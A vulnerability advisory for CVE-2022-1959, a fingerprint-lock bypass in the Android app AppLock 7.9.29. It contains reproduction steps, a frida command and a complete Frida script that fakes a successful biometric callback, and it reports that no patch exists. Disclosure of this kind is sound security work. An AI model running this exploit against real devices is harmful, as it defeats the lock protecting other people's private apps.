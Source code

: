 ```yaml
---
slug: advisories/walker/
title: AppLock 7.9.29 - Improper Access Control - Fingerprint
authors: Carlos Bello
writer: cbello
codename: walker
product: AppLock 7.9.29
date: 2022-09-26 06:00 COT
cveid: CVE-2022-1959
severity: 5.5
description: AppLock 7.9.29  -  Improper Access Control - Fingerprint
keywords: Fluid Attacks, Security, Vulnerabilities, AppLock, Spsoft Mobile, Spsoft, Fingerprint
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | AppLock 7.9.29 - Improper Access Control - Fingerprint |
| **Code name**         | [Walker](https://en.wikipedia.org/wiki/Alan_Walker)    |
| **Product**           | AppLock (Fingerprint)                                  |
| **Affected versions** | Version 7.9.29                                         |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control - Fingerprint                                                                  |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 5.5                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1959)                          |

## Description

AppLock version 7.9.29 allows an attacker with physical access to
the device to bypass biometric authentication. This is possible
because the application did not correctly implement fingerprint
validations.

## Vulnerability

In android application fingerprint implementations, the
onAuthenticationSucceded method is triggered when the system
successfully authenticates a user. Most biometric authentication
implementations rely on this method being called, without worrying
about the CryptoObject. The application logic responsible for
unlocking the application is usually included in this callback method.
This approach is trivially exploited by connecting to the application
process and calling the AuthenticationSucceded method directly, as a
result, the application can be unlocked without providing valid
biometric data.

Another common case occurs when some developers use CryptoObject but do not
encrypt/decrypt data that is crucial for the application to function properly.
Therefore, we could skip the authentication step altogether and proceed to use
the application. To solve this there is no single answer, however a good approach
is to use a fingerprint protected key store key that will be used to decrypt a
symmetric key. This symmetric key must be used to decrypt the application storage.

I attach the following link so that you can better understand the vulnerability
present in AppLock:

* https://labs.f-secure.com/blog/how-secure-is-your-android-keystore-authentication/

## Steps to reproduce

1. Install and configure AppLock.

2. Activate and configure fingerprint protection in AppLock.

3. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).

4. Start AppLock on your device, if you set everything up correctly, you should now
   see a prompt to put your fingerprint.

5. Run the following command on your laptop.

```bash
frida -U 'AppLock' -l exploit.js --no-pause
```

6. Now on your device press the 'recent' button, commonly represented by a square.
   This button opens the recent apps view so that you can switch from one open app
   to another.

7. Log back into AppLock.

8. Now all you have to do is log in again. This time you will enter the application
   instantly, without having entered a valid fingerprint.

## Exploitation

### exploit.js

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(
    crypto, null, 0
);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use(
        'android.hardware.fingerprint.FingerprintManager$AuthenticationResult'
    );
    const FingerprintManager  = Java.use(
        'android.hardware.fingerprint.FingerprintManager'
    );
    const CryptoObject = Java.use(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject'
    );

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject',
        'android.os.CancellationSignal',
        'int',
        'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback',
        'android.os.Handler'
    );

    fingerprintManager_authenticate.implementation = (
        crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // We send a null cryptoObject to the listener of the fingerprint
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Evidence of exploitation

![applock-fingerprint-bypass](https://user-images.githubusercontent.com/51862990/192392091-e6ff1169-93d4-4c5b-ba61-59fdbf7841a8.gif)

## Our security police

We have reserved the CVE-2022-1959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: AppLock (Fingerprint) 7.9.29

* Operating System: Android 8.0 (API 26)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://www.spsoftmobile.com>

## Timeline

<time-lapse
  discovered="2022-09-06"
  contacted="2022-09-07"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
